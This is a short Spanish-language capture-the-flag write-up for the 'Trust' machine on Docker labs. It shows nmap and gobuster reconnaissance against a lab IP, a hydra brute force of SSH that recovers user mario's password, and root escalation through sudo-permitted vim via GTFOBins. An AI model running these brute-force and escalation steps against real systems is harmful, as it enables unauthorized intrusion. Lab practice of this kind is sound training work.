

# Trust

Dificultad: Muy Facil
Tecnicas: Hydra - Gobuster - Sudo -l
Pagina: Docker labs
Estado: Listo

```bash
Lo primero que hacemos es ver q puertos están abiertos 

nmap -p- -—open —min-rate 5000 -vvv -n -Pn 172.18.0.2 -oG allport
```



```bash
Luego tiramos unos script basicos y buscamos las versiones de los puertos abiertos 

nmap -p22,80 -sCV -oN targeted 172.18.0.2
```


```bash
Vamos a usar gobuster para ver si encontramos dominios o ficheros 

gobuster dir -u 172.18.0.2 -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x html,php,txt
```


```bash
Encontramos el archivo secreto.php y al abrirlo encontramos un posible usuario -> **Mario**

```


```bash
Implementamos hydra para ver si encontramos la contraseña 

hydra -l mario -P /usr/share/wordlist/rockyou.txt ssh://172.18.0.2
```


```bash
Y encontramos la contraseña -> Chocolate 

Ingresamos mediante ssh con el usuario y contraseña correspondiente 
```

# Subida de Privilegio

```bash

Una vez ingresado como mario, vamos a usar sudo -l para ver si tenemos alguna forma de elevar nuestro privilegio
```


```bash
Vemos que podemos ejecutar el binario vim por lo que nos respaldamos en gtfobins y elevamos nuestro privilegio
```

